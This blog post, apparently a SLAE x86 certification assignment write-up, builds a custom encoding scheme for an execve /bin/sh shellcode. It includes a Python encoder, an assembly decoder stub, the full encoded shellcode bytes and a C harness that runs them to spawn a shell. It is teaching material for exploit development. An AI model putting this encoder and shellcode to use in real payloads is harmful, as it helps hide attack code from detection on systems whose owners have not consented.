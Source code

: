 ```yaml
---
title:  "SLAE x86 Assignment 4: Custom Encoding Scheme"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 4 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
This assignment requires us to write a custom encoding scheme, accompanied with a decoding stub in order for the shellcode to be executed. So this is my take on this assignment:

- First, a python script will be used to encode the shellcode. Each byte of the shellcode will be appended by 0xAA, followed by a random number.
- The decoder will be written in assembly. This decoder stub will contain our encoded shellcode. Once the shellcode has been decoded, execution will be passed to it.

So let's start with the encoder script! We will first need to extract the ```execve-stack``` shellcode:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
#SLAE x86 Assignment 4: Custom Encoder Script
#Author: 4p0cryph0n
#Website: https://4p0cryph0n.github.io

#!/usr/bin/python

import sys
import random

execve = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#If length is an odd no. add a nop at the end to make even

if len(bytearray(execve)) % 2 != 0:
	bytearray(execve).append(0x90)

encoded2 = ""

#add 0xaa followed by a random byte after each byte of the shellcode

for x in bytearray(execve):

	encoded2 += '0x'
	encoded2 += '%02x,' % x
	encoded2 += '0x%02x,' % 0xAA + '0x%02x,' % random.randint(1,255)

print encoded2
```
This script will first check whether the length of the shellcode is odd or even, depending upon which it will add a ```NOP``` at the end. This is to help with encoding groups of bytes. Then, the encoding process starts, and is outputted in a format which is supported by nasm. I will manually be adding a byte at the end of this output, which will serve as a marker. This will tell our decoder stub when to stop with the decoding process. This byte will be ```\xde```.

```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ python encoder.py
0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2,

add \xde at the end
```
### Assembly time!
Okay so now we have our output. Let's write the decoder stub. The idea is to essentially skip the two bytes added, and eliminate them to arrive at our decoded shellcode:
```nasm
; SLAE Assignment 4: Custom Decoder (Linux/x86)
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text

_start:

	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi +1]
	xor eax, eax
	mov al, 1
	xor ebx, ebx

decode:
	mov bl, byte [esi + eax]
	xor bl, 0xde
	jz short EncodedShellcode
	mov bl, byte [esi + eax + 2]
	mov byte [edi], bl
	inc edi
	add al, 3
	jmp short decode


call_shellcode:

	call decoder
	EncodedShellcode: db 0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2, 0xde
```
The address of our encoded shellcode is first popped into ```esi``` using the ```JMP-CALL-POP``` technique. ```edi``` is loaded with the address of the second byte. A counter is initialized with ```eax```, which will be used to keep track of the closest byte next.

The second byte is then stored in ```ebx```, and the instruction after that runs a check for whether we have reached the end. In that case, we jump and pass execution. Otherwise, we move the value of the next important byte in ```ebx```, which is at ```[esi + eax + 2]```. This is because we have two junk bytes. We move the important byte in place of the second byte, and we increment the counter that keeps track of the important bytes.

We add 3 to the counter that keeps track of the closest byte next, and we continue this process until the end is reached.

Alright! Let's extract this shellcode and test it out. Pay close attention to the ```objdump``` command though:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ objdump -d ./decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xde\x74\x10\x8a\x5c\x06\x02\x88\x1f\x47\x04\x03\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc4\xc0\xaa\xa3\x50\xaa\x6d\x68\xaa\x6c\x2f\xaa\x66\x2f\xaa\xc7\x73\xaa\x74\x68\xaa\xc7\x68\xaa\x88\x2f\xaa\xd1\x62\xaa\x58\x69\xaa\x5e\x6e\xaa\x12\x89\xaa\x65\xe3\xaa\xaf\x50\xaa\xf5\x89\xaa\x9e\xe2\xaa\x25\x53\xaa\x79\x89\xaa\x69\xe1\xaa\x26\xb0\xaa\xd6\x0b\xaa\x60\xcd\xaa\x54\x80\xaa\xc2\xde"
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xde\x74\x10\x8a\x5c\x06\x02\x88\x1f\x47\x04\x03\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc4\xc0\xaa\xa3\x50\xaa\x6d\x68\xaa\x6c\x2f\xaa\x66\x2f\xaa\xc7\x73\xaa\x74\x68\xaa\xc7\x68\xaa\x88\x2f\xaa\xd1\x62\xaa\x58\x69\xaa\x5e\x6e\xaa\x12\x89\xaa\x65\xe3\xaa\xaf\x50\xaa\xf5\x89\xaa\x9e\xe2\xaa\x25\x53\xaa\x79\x89\xaa\x69\xe1\xaa\x26\xb0\xaa\xd6\x0b\xaa\x60\xcd\xaa\x54\x80\xaa\xc2\xde";
main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
Let's compile and run this:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
shellcode.c:6:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    6 | main()
      | ^~~~
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ ./shellcode
Shellcode Length:  112
$
```
And our shell executes!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
